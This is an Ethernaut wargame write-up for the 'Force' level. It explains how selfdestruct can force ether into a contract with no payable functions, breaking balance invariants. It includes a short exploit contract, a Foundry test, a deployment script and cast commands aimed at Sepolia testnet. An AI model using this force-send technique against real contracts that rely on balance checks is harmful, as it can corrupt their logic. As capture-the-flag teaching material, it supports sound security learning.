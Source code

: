 ## 👾 07. Force

<br>


### tl; dr

<br>


* this challenge exploits smart contract invariants, and how total balance is not a good invariant.
  - contract invariants are properties of the program state that are expected to always be true. for instance, the value of `owner` state variable, the total token supply, etc., should always remain the same.
  - a state in the blockchain is considered valid when the contract-specific invariants hold true.

<br>

* in this challenge, we need to find a way to forcely send `ether` to a contract that does not explicitly contain a `payable`, a `receive()`, or a `fallback()` function.

<br>



* there are two ways this can be done when the destination contract is already deployed:
   - by using `coinbase` transactions or block rewards (like MEV searchers and validators rewards)
  - by leveraging (**[the now being deprecated](https://ethereum-magicians.org/t/deprecate-selfdestruct/11907)**) `selfdestruct(address)`, which allows contracts to receive `ether` from other contracts. 
    - all the `ether` stored in the calling contract is transferred to `address` (and since this happens at the EVM level, there is no way for the receiver to prevent it). 
    - `selfdestruct()` can be considered a garbage collection to clean up voided contracts (and it consumes negative gas).

<br>


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/06c0c5bb-8c1f-49a4-a2a1-561d5f1fa74b">
</p>




<br>

```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```


<br>

---

### discussion

<br>

* `Force` contract has no code and its ABI is empty, so we need to figure out how we can send `ether` to it.

<br>

* as mentioned above, we can use `selfdestruct(address)`, a function used to delete a contract from the blockchain by removing its code and storage.

<br>



----

### solution

<br>

* we craft a very simple exploit, located at `src/07/ForceExploit.sol`:

<br>

```solidity
contract ForceExploit {
    
    constructor(address payable instance) payable {
        selfdestruct(instance);
    }
}
```

<br>

* and test it with `test/07/Force.t.sol`:

<br>

```solidity
contract ForceTest is Test {

    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
    
        vm.prank(instance);
        vm.deal(hacker, 1 ether);
    }

    function testForceHack() public {

        vm.startPrank(hacker);
        assert(instance.balance == 0);
        ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);
        assert(instance.balance != 0);
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ForceTest -vvvv    
```



<br>

* then, we submit the solution with `script/07/Force.s.sol`:

<br>

```solidity
contract Exploit is Script {

    ForceExploit exploit;
    address payable instance = payable(vm.envAddress("INSTANCE_LEVEL7"));     
    address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY")); 
    uint256 immutable initialDeposit = 0.0005 ether;  
        
    function run() external {
        vm.startBroadcast(hacker);
        exploit = new ForceExploit{value: initialDeposit}(instance);
        vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/07/Force.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---

### alternative solution using `cast`

<br>

* deploy the exploit with:

<br>

```shell
> forge create src/07/ForceExploit.sol:ForceExploit --constructor-args=<level address> --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

* then call the contract with:

<br>

```shell
> cast send <deployed address> --value 0.0005ether --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

----

### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>


